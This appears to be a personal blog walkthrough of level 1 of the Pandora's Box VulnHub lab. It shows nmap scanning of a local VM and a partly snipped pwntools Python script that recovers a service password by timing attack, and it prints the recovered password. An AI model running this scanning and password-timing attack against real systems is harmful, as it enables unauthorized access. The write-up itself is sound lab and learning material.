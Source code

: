 ### Pandoras box Level *1* of *5*

![](https://Cyberguru1.github.io/posts/VulnHub/images/pando_site.png)
---------------------------------------------------------------------

About:
Pandora's box is a Boot2Root VM focused on binary exploitation and
reverse engineering. You have to complete all levels to r00t the box.
Some levels come with a README file which you should read.

---

This is the first level of the challenge, an OVA file is provided in the challenge [link]() booting up the ova file in to VM ware player we have

![](https://Cyberguru1.github.io/posts/VulnHub/images/pando.gif)

after booting up the box, we are left with a prompt to enter username and password, we tried some random guesses with no avail
well this a boot-to-root challenge my first of a kind that has to do with a combination of reveng and binary exploitation, knowing this
let's try and search for the machines IP address and scan for open ports

![](https://Cyberguru1.github.io/posts/VulnHub/images/pando_ip.png)

Using the command `arp -a` we were able to get the machine IP address that I configured the network adapter binded to vmnet1 which we confirmed by comparing the shown macadress with the machine's ip address.

using this ip address let's scan the machine using NMAP we have :

![](https://Cyberguru1.github.io/posts/VulnHub/images/pando_service_scan.png)

we use the NMAP command `sudo nmap -sV -SN -sC 192.168.17.129`, and we got some results, an open port to SSH on port 22/TCP, let's try a deeper scan to scan all port using the `-p-` args to the command we have::

![](https://Cyberguru1.github.io/posts/VulnHub/images/pando_all_scan.png)

doing so we were able to get an additional open port running on port 54311 with service Nagios NSCA

let's try connecting to it using netcat we have ::

![](https://Cyberguru1.github.io/posts/VulnHub/images/pando_login_lvl1.png)

we could see a password prompt asking us for a password, we try some random string with no luck, and then I went to google to do some reconnaissance on possible vulnerabilities for Nagios logging

<div style="width:98px;max-width:100%;"><div style="height:0;padding-bottom:58.16%;position:relative;"><iframe width="150" height="155" style="position:absolute;top:0;left:0;width:100%;height:100%;" frameBorder="0" src="https://imgflip.com/embed/7m974v"></iframe></div><p><h4>That eureker moment!!!</h4></p></div>

And Whalaaaaa, we found that it's vulnerable to timing attack; In cryptography, a timing attack is a side-channel attack in which the attacker attempts to compromise a cryptosystem by analyzing the time taken to execute cryptographic algorithms. More info [here](https://en.wikipedia.org/wiki/Timing_attack)

Base on this info we could craft a Python script that connects to the remote port on 54311 using pwntools and attempts to guess the password by measuring the time it takes to receive a response from the server.

Abiding to this timing attack principle we have ::

```
#!/usr/bin/python3

from pwn import *
from time import time
from string import *

ip = "192.168.17.129"
port = 54311

sample_space =  ascii_letters + digits

p = remote(ip, port)

<!--snip>
<!--snip>

while not done:
	curr_val = ''
	first = True
	for chars in sample_space:
		current = flag
		current += chars
		ttt = chcktime(current)
		ttt = chcktime(current)
	
		if first:
			min_diff = ttt
			first = False
		
		if ttt < min_diff:
			min_diff = ttt
			curr_val = chars
				
	flag += curr_val
	print(flag)
	p.sendlineafter(b":", flag.encode())
	status = p.recvuntil(b"\n")

	if b"Logged" in status:
		done = True
```

full script [here](https://Cyberguru1.github.io/posts/VulnHub/images/script.py)

Here's a breakdown of the code:

-The script sets the IP address `(ip)` and port number `(port)` for the remote server.
-The `sample_space` variable contains a string of ASCII letters and digits, which will be used to construct the password.
-The script establishes a connection to the remote server using `p = remote(ip, port)`.
-The `chcktime` function measures the time it takes to receive a response from the server after sending a password attempt. It sends the password attempt, receives the server's response, and calculates the time difference between sending and receiving the response.
-The main loop of the script repeatedly selects a character from sample_space and appends it to the flag variable. It then measures the time it takes to receive a response from the server after sending the updated password attempt.
-The script keeps track of the minimum time difference `(min_diff)` and the character that resulted in the minimum time difference `(curr_val)`.
-After each iteration of the loop, the selected character is appended to the `flag` variable and sent to the server.
-If the server responds with "Logged in ", indicating that the correct password has been guessed, the loop is terminated.
-The script prints the current value of `flag` after each iteration to show the progress of the password guessing.

After running the code for a while we have:

<div style="width:98px;max-width:100%;"><div style="height:0;padding-bottom:58.16%;position:relative;"><iframe width="150" height="157" style="position:absolute;top:0;left:0;width:100%;height:100%;" frameBorder="0" src="https://Cyberguru1.github.io/posts/VulnHub/images/pando_lvl1_flag.gif"></iframe></div><p><h4>Running the script</h4></p></div>

This the final password:

![](https://Cyberguru1.github.io/posts/VulnHub//images/pando_lvl1_flag.png)

we got the password as `R3sp3ctY04r4dm1niSt4t0rL1keYo4R3spectY04rG0d`, using this to login we have

![](https://Cyberguru1.github.io/posts/VulnHub//images/pando_lvl1_sucess.png)

And boooom!!!

we are in!!!!!.....................

The next solution to level *2* would be dropped soon ..............

Arigato :<^>:
